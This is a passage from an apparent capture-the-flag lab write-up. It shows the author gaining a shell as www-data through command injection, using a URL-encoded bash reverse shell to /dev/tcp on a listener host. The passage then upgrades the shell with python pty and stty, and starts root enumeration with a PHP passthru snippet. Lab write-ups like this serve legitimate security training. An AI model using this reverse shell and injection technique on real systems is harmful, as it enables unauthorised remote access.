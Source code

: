     
    
    http://127.0.0.1:9001/index.php?a=bash -c 'bash -i >%26 /dev/tcp/192.168.254.2/4433 0>%261'
    

After a few refreshes, it connected back:

    
    
    www-data@web:~$ /tmp/nc -lnvp 4433
    Ncat: Version 6.49BETA1 ( http://nmap.org/ncat )
    Ncat: Listening on :::4433
    Ncat: Listening on 0.0.0.0:4433
    Ncat: Connection from 192.168.254.3.
    Ncat: Connection from 192.168.254.3:39820.
    bash: cannot set terminal process group (14): Inappropriate ioctl for device
    bash: no job control in this shell
    www-data@pki:~/html$ id
    uid=33(www-data) gid=33(www-data) groups=33(www-data)
    

Even though it’s running on web, the normal PTY trick works:

    
    
    www-data@pki:~/html$ python3 -c 'import pty;pty.spawn("bash")'
    python3 -c 'import pty;pty.spawn("bash")'
    www-data@pki:~/html$ ^Z
    [1]+  Stopped                 /tmp/nc -lnvp 4433
    www-data@web:~$ stty raw -echo; fg
    /tmp/nc -lnvp 4433
                      reset
    reset: unknown terminal type unknown
    Terminal type? screen
    www-data@pki:~/html$
    

## Shell as root

### Enumeration

Looking at the webpage, it’s super simple:

    
    
    <?php
    header('X-Powered-By: PHP-FPM/7.1');
    //cn needs to be parsed!!!
    $cn=preg_replace("/[^A-Za-z0-9 ]/", '',$_GET['cn']);
    echo passthru("/usr/bin/ersatool create ".$cn);
    ?>
    

It scrubs the input of all characters that aren’t letters, numbers or space,
and runs `/usr/bin/erasatool create $cn`, printing the results.

That binary doesn’t look special at first glance:

    
    
    www-data@pki:~/html$ ls -l /usr/bin/ersatool
    -rwxr-xr-x 1 root root 22496 Jun 21 17:05 /usr/bin/ersatool
    